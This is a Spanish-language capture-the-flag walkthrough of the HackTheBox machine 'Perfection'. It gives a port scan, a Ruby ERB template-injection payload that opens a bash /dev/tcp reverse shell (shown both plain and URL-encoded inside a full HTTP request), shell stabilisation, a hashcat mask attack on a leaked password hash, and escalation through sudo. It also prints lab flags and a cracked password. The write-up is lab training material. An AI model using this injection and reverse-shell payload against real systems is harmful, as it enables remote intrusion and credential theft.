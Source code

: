 ```yaml
---
icon: flag
---
```


# Perfection HackTheBox

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-10 09:05 EDT
Nmap scan report for 10.10.11.253
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   43.37 ms 10.10.14.1
2   43.43 ms 10.10.11.253

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

### Puerto 80

Vamos a `/weighted-grade/`...

Una vez sabemos que Ruby es vulnerable a codigos de inyeccion, abrimos BurpSuit capturamos la peticion ingresando en la tabla donde hay que colocar numero que llegue hasta 100 para que funcione y en la de texto lo que sea...

```
Category 	Grade 	Weight (%)
a			0			100
a			0			0
a			0			0
a			0			0
a			0			0
```

Una vez que capturemos con el BurpSuit esa peticion, modificaremos la seccion de `Category` para ahi inyectar codigo de Ruby

El codigo a pelo no te va a dejar `<%= 7 * 7 %>` por lo que lo codificamos en URL pero haciendonos una Reverse Shell de la siguiente manera...

```shell
<%= IO.popen('bash -c "sh -i >& /dev/tcp/<IP>/<PORT> 0>&1"').readlines()  %>
```

```shell
%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0a
```

Pero si lo metemos ahi directamente no ira, por lo que al principio y al final le añadimos algo de texto...

```shell
test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest
```

Y esto si funcionaria...

Info:

```
POST /weighted-grade-calc HTTP/1.1

Host: 10.10.11.253

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 410

Origin: http://10.10.11.253

Connection: close

Referer: http://10.10.11.253/weighted-grade-calc

Upgrade-Insecure-Requests: 1



category1=test%3c%25%3d%20%49%4f%2e%70%6f%70%65%6e%28%27%62%61%73%68%20%2d%63%20%22%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%38%30%2f%37%37%37%37%20%30%3e%26%31%22%27%29%2e%72%65%61%64%6c%69%6e%65%73%28%29%20%20%25%3e%0atest&grade1=0&weight1=100&category2=aa&grade2=0&weight2=0&category3=a&grade3=0&weight3=0&category4=a&grade4=0&weight4=0&category5=a&grade5=0&weight5=0
```

Una vez echo esto, tendriamos una shell con el usuario `susan` la sanitizamos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Ahora leemos la flag en la home de este usuario...

> user.txt (flag1)

```
2368118f5426a880d7918d5a522156f7
```

Si nos vamos a `Migration` y leemos el .db llamado `pupilpath_credentials.db`...

```
��^�ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a�\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Nos aparece lo que parece ser la contraseña de `susan`

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

Si ponemos el siguiente comando...

```shell
find / -name susan -type f 2>/dev/null | grep -v "proc/*" | grep -v "sys/*"
```

Nos mostrara lo siguiente...

```
/var/mail/susan
```

Y si leemos eso nos muestra...

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Por lo que para Deshashear ese hash que encontramos con estas pistas haremos lo siguiente...

```
hashcat -m  1400 -a 3 hash susan_nasus_?d?d?d?d?d?d?d?d?d
```

Info:

```
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

```
Password = susan_nasus_413759210
```

Si hacemos `sudo -l` veremos que tenemos todos los permisos como `root` por lo que hacemos lo siguiente...

```shell
sudo su
```

Y ya seriamos `root` por lo que vamos a `/root/` y leemos la flag...

> root.txt (flag2)

```
4a918b542b359a8bb20666a315217f39
```
